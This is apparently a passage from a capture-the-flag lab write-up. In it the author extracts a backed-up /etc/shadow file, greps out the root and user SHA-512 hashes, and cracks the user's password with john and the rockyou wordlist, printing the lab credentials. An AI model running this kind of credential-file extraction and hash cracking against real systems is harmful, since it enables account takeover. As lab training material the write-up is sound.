 kali@kali:~$ unzip save.zip 
Archive:  save.zip
[save.zip] etc/passwd password: 
  inflating: etc/passwd              
  inflating: etc/shadow              
  inflating: etc/group               
  inflating: etc/sudoers             
  inflating: etc/hosts               
 extracting: etc/hostname
kali@kali:~$ 
kali@kali:~$ ls
etc  pass.hash  save.zip
kali@kali:~$ ls -l etc/
total 24
-rw-r--r-- 1 kali kali  829 Jun 27 17:40 group
-rw-r--r-- 1 kali kali   33 Jun 27 17:39 hostname
-rw-r--r-- 1 kali kali  185 Jun 27 16:58 hosts
-rw-r--r-- 1 kali kali 1807 Jun 27 18:05 passwd
-rw-r----- 1 kali kali 1111 Jul  7 16:26 shadow
-r--r----- 1 kali kali  669 Feb  2  2020 sudoers
We find what looks to be a backup of some of the files in the target's /etc directory. Most importantly, we have the /etc/shadow file with user password hashes.

Cracking Shadow File
Inside the shadow file, we find two users of interest (root and user 296640a3b825115a47b68fc44501c828):

kali@kali:~$ cat etc/shadow | grep 18450
root:$6$RucK3DjUUM8TjzYJ$x2etp95bJSiZy6WoJmTd7UomydMfNjo97Heu8nAob9Tji4xzWSzeE0Z2NekZhsyCaA7y/wbzI.2A2xIL/uXV9.:18450:0:99999:7:::
296640a3b825115a47b68fc44501c828:$6$x4sSRFte6R6BymAn$zrIOVUCwzMlq54EjDjFJ2kfmuN7x2BjKPdir2Fuc9XRRJEk9FNdPliX4Nr92aWzAtykKih5PX39OKCvJZV0us.:18450:0:99999:7:::
kali@kali:~$
We will copy these hashes into another file and try to crack them:

kali@kali:~$ cat etc/shadow | grep 18450 > users.hash
kali@kali:~/Documents/PG-PLAY/sunsetdecoy$ cat users.hash 
root:$6$RucK3DjUUM8TjzYJ$x2etp95bJSiZy6WoJmTd7UomydMfNjo97Heu8nAob9Tji4xzWSzeE0Z2NekZhsyCaA7y/wbzI.2A2xIL/uXV9.:18450:0:99999:7:::
296640a3b825115a47b68fc44501c828:$6$x4sSRFte6R6BymAn$zrIOVUCwzMlq54EjDjFJ2kfmuN7x2BjKPdir2Fuc9XRRJEk9FNdPliX4Nr92aWzAtykKih5PX39OKCvJZV0us.:18450:0:99999:7:::
kali@kali:~$
We can use john and the rockyou.txt wordlist once again:

kali@kali:~$ john --wordlist=/usr/share/wordlists/rockyou.txt users.hash 
Using default input encoding: UTF-8
Loaded 2 password hashes with 2 different salts (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
server           (296640a3b825115a47b68fc44501c828)
1g 0:00:00:45 0.99% (ETA: 14:31:16) 0.02185g/s 3670p/s 4045c/s 4045C/s playoffs..paris17
Use the "--show" option to display all of the cracked passwords reliably
Session aborted
john cracks the user's password quite quickly, but we are not able to crack the root user password. Nevertheless, we have obtained credentials 296640a3b825115a47b68fc44501c828:server.
